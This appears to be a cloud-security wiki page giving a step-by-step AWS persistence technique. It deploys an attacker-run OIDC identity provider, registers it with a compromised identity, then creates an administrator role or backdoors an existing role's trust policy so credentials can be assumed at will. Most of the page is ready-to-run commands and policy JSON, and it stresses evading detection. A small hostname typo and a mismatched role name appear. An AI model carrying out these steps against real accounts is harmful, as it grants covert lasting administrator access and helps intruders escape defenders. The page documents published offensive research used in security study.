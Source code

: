 ```yaml
---
author_name: Eduard Agavriloae
title: IAM Rogue OIDC Identity Provider Persistence
description: Obtain persistence by creating a rogue OIDC Identity Provider.
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.offensai.com/blog/rogueoidc-aws-persistence-and-evasion-through-attacker-controlled-oidc-identity-provider">RogueOIDC: AWS Persistence and Evasion through attacker-controlled OIDC Identity Provider</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p><img src="/images/researchers/eduard_agavriloae.jpg" alt="Eduard Agavriloae" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>


There are multiple ways to obtain persistence in AWS after gaining an initial foothold. This is another, slightly more complex method that, due to its complexity, may go unnoticed for a longer time compared with the well-known ones. 

This technique involves deploying an OIDC web server, creating an OIDC Identity Provider in AWS and backdoor a role for achieving persistence. For clarity, the steps below specify whether they should be performed in your environment (the attacker) or the victim's environment.

Before we begin, you will need a domain for this technique. AWS doesn't accept as OIDC Identity Providers IP addresses or domains that use self-signed certificates.

1. Start an EC2 instance

> Environment: attacker

You will need a server to deploy the web OIDC Identity Provider (IdP). This server should expose port 443 to the internet.

2. Configure a DNS record

> Environment: attacker

Add an A DNS record for a subdomain that will point to the IP of the EC2 instance. For the rest of the article we will assume that the subdomain is named `oidc` and the domain is `example.com`.

3. Connect to the instance and download Rogue OIDC IdP server

> Environment: attacker

```bash
sudo yum update
sudo yum install git
git clone https://github.com/OffensAI/RogueOIDC
```

4. Generate certificate

> Environment: attacker

This will create the cert files at `/etc/letsencrypt/live/oidc.example.com/privkey.pem` and `/etc/letsencrypt/live/oidc.example.com/fullchain.pem`.

```bash
sudo yum install certbot
sudo certbot certonly --standalone -d oidc.example.com
```

5. Configure Rogue OIDC Identity Provider

> Environment: attacker

```bash
cd RogueOIDC/web-app
vim .env
```

Change the configuration using your own domain, change the client secret and optionally the client ID and subject. 

```text
ISSUER=https://oidc.example.com
CLIENT_ID=oidc_client
CLIENT_SECRET=very_secure_password_2027
REDIRECT_URI=https://oidc.example.com
SUBJECT=oidc_subject
SSL_KEYFILE=/etc/letsencrypt/live/oidc.example.com/privkey.pem
SSL_CERTFILE=/etc/letsencrypt/live/oidc.example.com/fullchain.pem
HOST=0.0.0.0
PORT=443
```

6. Install requirements

> Environment: attacker

```bash
cd RogueOIDC/web-app
sudo yum install pip
sudo yum install virtualenv

virtualenv web
source web/bin/activate
pip install -r requirements.txt
```

7. Start the server

> Environment: attacker

```bash
sudo web/bin/python main.py
```

Verify that `https://odic.example.com/.well-known/openid-configuration` is accessible and reflects the configurations made.

8. Create the OIDC provider

> Environment: victim

This command will be executed using the compromised identity from the victim's account. The client ID must match the configured client ID from the Rogue OIDC IdP configuration.

```bash
aws --profile compromised_user iam create-open-id-connect-provider --url https://oidc.example.com --client-id-list oidc_client
```

9. Persistence

> Environment: victim

There are two ways to achieve persistence. The first involves creating a role with a trust policy for the OIDC IdP and attaching a policy to it afterwards. This might be easily detected.

The second one involves modifying the trust role policy of an existing role. While this is still a well-known persistence technique, combining it with an OIDC IdP may evade detection by some tools and defenders.

9.1 Create a new role with this OIDC Identity Provider in the trust policy

The trust role policy document can be found below. Make sure it matches the client ID and subject configured in the Rogue OIDC server.

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::123456789012:oidc-provider/oidc.example.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "oidc.example.com:aud": "oidc_client",
                    "oidc.example.com:sub": "oidc_subject"
                }
            }
        }
    ]
}
```

Use a unique role name to ensure safe testing.

```bash
aws --profile compromised_user iam create-role --role-name poc-random-string --assume-role-policy-document file://policy.json

aws --profile compromised_user iam attach-role-policy --role-name poc-random-string --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Now you just created an administrator role that can be assumed with the last step from the article. Keep in mind that is enough to create a role, without attaching any policies for doing a PoC.

9.2 Modify the role trust policy of an existing role

With this method you would ideally get the trust policy of an existing role, modify it by adding your OIDC provider and update the role with the new policy document. This way, the role would continue to work, but it would also be backdoored.

```bash
aws --profile compromised_user iam update-assume-role-policy --role-name poc-random-string --policy-document file://policy.json
```

10. Assume the role

Finally, you can now assume the role at any time. The script for assuming it is in the same repository as the Rogue web OIDC IdP.

```bash
cd assume-role-script

pip install -r requirements.txt

./assume-role-rogue-oidc.py --oidc-url https://oidc.example.com \
      --client-id oidc_client \
      --client-secret very_secure_password_2027 \
      --redirect-uri https://oidc.example.com \
      --role-arn arn:aws:iam::123456789012:role/poc \
      --role-session-name session_name
```

The output will contain the temporary access credentials of the role and will perform an STS GetCallerIdentity to check if the credentials are working.

For taking the technique to a more evasion oriented level, make sure to check the original research.
